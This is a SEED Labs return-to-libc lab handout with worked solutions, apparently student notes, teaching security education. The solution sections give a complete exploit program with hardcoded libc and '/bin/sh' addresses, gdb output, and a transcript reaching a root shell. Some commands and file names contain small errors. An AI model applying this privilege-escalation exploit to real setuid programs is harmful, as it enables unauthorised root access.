

# SEEDlabs: Return-to-libc Attack Lab

## Lab Overview
This attack can bypass an existing protection scheme currently implemented in major Linux operating systems. A common way to exploit a buffer-overflow vulnerability is to overflow the buffer with a malicious shellcode, and then cause the vulnerable program to jump to the shellcode that is stored in the stack. To prevent these types of attacks, some operating systems allow system administrators to make stacks non-executable; therefore, jumping to the shellcode will cause the program to fail. Unfortunately, the above protection scheme is not fool-proof; there exists a variant of buffer-overflow attack called the return-to-libc attack, which does not need an executable stack; it does not even use shell code. Instead, it causes the vulnerable program to jump to some existing code, such as the `system()` function in the `libc` library, which is already loaded into the memory.

## Lab Tasks

### Initial Setup
Ubuntu and other Linux distributions have implemented several security mechanisms to make the buffer-overflow attack difficult. To simply our attacks, we need to disable them first.

(1) Address Space Randomization.
Ubuntu and several other Linux-based systems uses address space randomization to randomize the starting address of heap and stack. This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks. In this lab, we disable these features using the following commands:
```
sudo sysctl -w kernel.randomize_va_space=0
```

(2) The StackGuard Protection Scheme.
The GCC compiler implements a security mechanism called "Stack Guard" to prevent buffer overflows. In the presence of this protection, buffer overflow will not work. You can disable this protection if you compile the program using the `-fno-stack-protector` switch. For example, to compile a program example.c with Stack Guard disabled, you may use the following command:
```
gcc -fno-stack-protector example.c
```

(3) Non-Executable Stack.
Ubuntu used to allow executable stacks, but this has now changed: the binary images of programs (and shared libraries) must declare whether they require executable stacks or not, i.e., they need to mark a field in the program header. Kernel or dynamic linker uses this marking to decide whether to make the stack of this running program executable or non-executable. This marking is done automatically by the recent versions of gcc, and by default, the stack is set to be non-executable. To change that, use the following option when compiling programs:
```
gcc -z execstack -o test test.c

gcc -z noexecstack -o test test.c
```

### The Vulnerable Program
```
/* relib.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(FILE *badfile)
{
    char buffer[12];

    /* The following statement has a buffer overflow problem */
    fread(buffer, sizeof(char), 40, badfile);

    return 1;
}

int main(int argc, char **argv)
{
    FILE *badfile;

    badfile = fopen("badfile", "r");
    bof(badfile);

    printf("Returned Properly\n");

    fclose(badfile);
    return 1;
}
```
Compile the above vulnerarble program and make it set-root-uid.
```
sudo gcc -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chmod 4755 retlib
```
The above program has a buffer overflow vulnerability. It first reads an input of size 40 bytes from a file called "badfile" into a buffer of size 12, causing the overflow. The function fread() does not check boundaries, so bufferoverflow will occur. Since this program is a set-root-uid program, if a normal user can exploit this buffer overflow vulnerability, the normal user might be able to get a root shell. It should be noted that the program gets its input from a file called "badfile". This file is under users' control. Now, our objective is to create the contents for "badfile". This file is under users' control. Now, our objective is to create the contents for "badfile", such that when the vulnerable program copies the contents into its buffer, a root shell can be spawned.

### Task 1: Exploiting the Vulnerability
Create the badfile.
```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[40];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
  *(long *) &buf[X] = some address ;   //  "/bin/sh"
  *(long *) &buf[Y] = some address ;   //  system()
  *(long *) &buf[Z] = some address ;   //  exit()

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
```
You need to figure out the values for those addresses, as well as to find out where to store those addresses. If you incorrectly calculate the locations, your attack might not work.

After you finish the above program, compile and run it; this will generate the contents for “badfile”. Run the vulnerable program `retlib`. If your exploit is implemented correctly, when the function `bof` returns, it will return to the `system()` libc function, and execute `system("/bin/sh")`. If the vulnerable program is running with the root privilege, you can get the root shell at this point.

It should be noted that the `exit()` function is not very necessary for this attack; however, without this function, when `system()` returns, the program might crash, causing suspicions.
```
$ gcc -o exploit exploit.c
$ ./exploit       // create the badfile
$ ./retlib        // launch the attack by running the vulnerable program
# <---- You've got a root shell!
```

Questions.
- Please describe how you decide the values for X, Y and Z.
- After your attack is successful, change the file name of `retlib` to a different name, making sure that the length of the file names are different. For example, you can change it to `newretlib`. Repeat the attack (without changing the content of badfile). Is your attack successful or not?

solution:

The following is return-to-libc stack:
```
<- stack grows this way
   addresses grow this way ->
------------------------------------------------------------------------------
| buffer fill-up | f1 | pop-ret | f1_arg | f2 | dmm | f2_arg1 | f2_arg2 ... 
------------------------------------------------------------------------------
                                    ^
                                    |
                                    - this int32 should overwrite return address
                                        of a vulnerable function
```
So we should set `system`'s entry address at `bof`'s return address (`&buf[24]`), set `system`'s argument address at `&buf[32]`, and set `exit`'s entry address at `&buf[36]`.

Then, find memory address:
```
root@ubuntu:/home/seed# gcc -o -fno-stack-protector -z noexecstack -o retlib retlib.c 
root@ubuntu:/home/seed# chmod u+s retlib
root@ubuntu:/home/seed# gdb --quiet retlib
Reading symbols from /home/seed/retlib...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048528
(gdb) r
Starting program: /home/seed/retlib 
Breakpoint 1, 0x08048528 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e5f430 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>
```
We need write a program to get `/bin/sh`'s address:
```
// getenv.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char const *argv[])
{
    char *ptr;
    if(argc < 3)
    {
        printf("Usage: %s <environment var> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]);
    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
    printf("%s will be at %p\n", argv[1], ptr);
    return 0;
}
```
```
seed@ubuntu:~$ export MYSHELL=/bin/sh
seed@ubuntu:~$ gcc -o getenv getenv.c 
seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbffffe8a
```
We fill these address into exploit.c.
```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;

    badfile = fopen("./badfile", "w");
    strcpy(buf,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90");    // nop 24 times
    *(long *) &buf[32] = 0xbffffe8a ;    // "/bin/sh"
    *(long *) &buf[24] = 0xb7e5f430 ;    // system()
    *(long *) &buf[36] = 0xb7e52fb0 ;    // exit()

    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}
```
Now we exploit it:
```
seed@ubuntu:~$ ./exploit
seed@ubuntu:~$ ./retlib
# whoami
root
```

### Task 2: Address Randomization
In this task, let us turn on the Ubuntu's address randomization protection. We run the same attack developed in Task 1. Can you get a shell? If not, what is the problem? How does the address randomization make your return-to-libc attack difficult?
```
sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

Solution:
Address randomization makes these addresses different every times.
```
(gdb) p system
$3 = {<text variable, no debug info>} 0xb7600430 <system>
(gdb) p exit
$4 = {<text variable, no debug info>} 0xb75f3fb0 <exit>
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/seed/retlib 
Breakpoint 1, 0x080484b6 in main ()
(gdb) p system
$5 = {<text variable, no debug info>} 0xb7593430 <system>
(gdb) p exit
$6 = {<text variable, no debug info>} 0xb7586fb0 <exit>

seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbf8d8e8a
seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbff0de8a
seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbfa3ce8a
```

### Task 3: Stack Guard Protection
In this task, let us turn on the Ubuntu's Stack Guard protection. Please remember to turn off the address randomization protection. We run the same attack developed in Task 1. Can you get a shell? If not, what is the problem? How does the Stack Guard protection make your return-to-libc attack difficult?
```
sudo gcc -z noexecstack -o retlib retlib.c
sudo chmod 4755 retlib
```

Solution:
```
root@ubuntu:/home/seed# /sbin/sysctl -w kernel.randomize_va_space=0
root@ubuntu:/home/seed# gcc -z noexecstack -o retlib retlib.c 
root@ubuntu:/home/seed# chmod 4755 retlib
root@ubuntu:/home/seed# exit
exit
[08/13/2016 00:35] seed@ubuntu:~$ ./retlib
*** stack smashing detected ***: ./retlib terminated
```

## Guidelines: Understanding the function call mechanism

### Find out the addresses of libc functions
To find out the address of any libc function, you can use the following `gdb` commands (a.out is an arbitrary program):
```
$ gdb a.out

(gdb) b main
(gdb) r
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e5f430 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>
```
From the above `gdb` commands, we can find out that the address for the `system()` function is `0xb7e5f430`, and the address for the `exit()` function is `0xb7e52fb0`. The actual addresses in your system might be different from these number.

### Putting the shell string in the memory
One of the challenge in this lab is to put the string "`/bin/sh`" into the memory, and get its address. This can be achieved using environment variables. When a C program is executed, it inherits all the environment variables from the shell that exevutes it. The environment variable SHELL points directly to `/bin/bash` and is needed by other programs, so we introduce a new shell variable MYSHELL and make it point to `zsh`.
```
$ export MYSHELL=/bin/sh
```
We will use the address of this variable as an argument to `system()` call. The location of this variable in the memory can be found out easily using the following program:
```
void main() {
    char* shell = getenv("MYSHELL");
    if(shell)
        printf("%x\n", (unsigned int)shell);
}
```
If the address randomization is turned off, you will find out that the same address is printed out. However, when you run the vulnerabile program `retlib`, the address of the environment variable might not be exactly the same as the one that you get by running the above program; such an address can even change when you change the name of your program (the number of characters in the file name makes difference). The good news is, the address of the shell will be quite close to what you print out using the above program. Therefore, you might need to try a few times to succeed.

### Understand the Stack
To know how to conduct the `return-to-linc` attack, it is essential to understand how the stack works. We use a small C program to understand the effects of a function invocation on the stack.
```
#include<stdio.h>
void foo(int x)
{
	printf("Hello world: %d\n", x);
}

int main()
{
	foo(1);
	return 0;
}
```
We can use "gcc -S foobar.c" to compile this program to the assemble code. The resulting file `foobar.s` will look like the following:
```
seed@ubuntu:~$ gcc -S foobar.c 
seed@ubuntu:~$ cat -n foobar.s 
     8	foo:
     9		pushl	%ebp
    10		movl	%esp, %ebp
    11		subl	$8, %esp
    12      movl    8(%ebp), %eax
    13      movl    %eax, 4(%esp)
    14      movl    $.LC0, (%esp)   : string "Hello world: %d\n"
    15		call	printf
    16		leave
    17		ret
        ......
    21	main:
    22      leal    4(%esp), %ecx
    23      andl    $-16, %esp
    24      pushl   -4(%ecx)
    25      pushl   %ebp
    26      movl    %esp, %ebp
    27      pushl   %ecx
    28      subl    $4, %esp
    29      movl    $1, (%esp)
    30      call    foo
    31      movl    $0, %eax
    32      addl    $4, %esp
    33      popl    %ecx
    34      popl    %ebp
    35      leal    -4(%ecx), %esp
    36      ret
```



### Calling and Entering foo()
Let us concentrate on the stack while calling `foo()`. We can ignore the stack before that. Please note that line number instead of instruction addresses are used in this explanation.

Line 28-29: These two statements push the value 1, i.e. the argument to the `foo()`, into the stack. This operation increments `%esp` by four. The stack after these two statements is depicted in Figure 1(a).

Line 30: call foo: The statement pushes the address of the next instruction that immediately follows the `call` statement into the stack (i.e the return address), and then jumps to the code of `foo()`. The current stack is depicted in Figure 1(b).

Line 9-10: The first line of the function `foo()` pushes `%ebp` into the stack, to save the previous frame pointer. The second line lets `%ebp` point to the current frame. The current stack is depicted in Figure 1(c).

Line 11: subl $8, %esp: The stack pointer is modified to allocate space (8 bytes) for local variables and the two arguments passed to `printf`. Since there is no local variable in function `foo`, the 8 bytes are for arguments only. See Figure 1(d).

### Leaving foo()
Now the control has passed to the function `foo()`. Let us see what happens to the stack when the function returns.

Line 16: leave: This instruction implicitly performs two instructions (it was a macro in earlier x86 releases, but was made into an instruction later):
```
    mov   %ebp, %esp
    pop   %ebp
```
The first statement release the stack space allocated for the function; the second statement recover the previous frame pointer. The current stack is depicted in Figure 1(e).

Line 17: ret: This instruction simply pops the return address out of the stack, and then jump to the return address. The current stack is depicted in Figure 1(f).

Line 32: addl  $4, %esp: Further resotre the stack by releasing more memories allocated for `foo`. As you can clearly see that the stack is now in exactly the same state as it was before entering the function `foo` (i.e, before line 28).
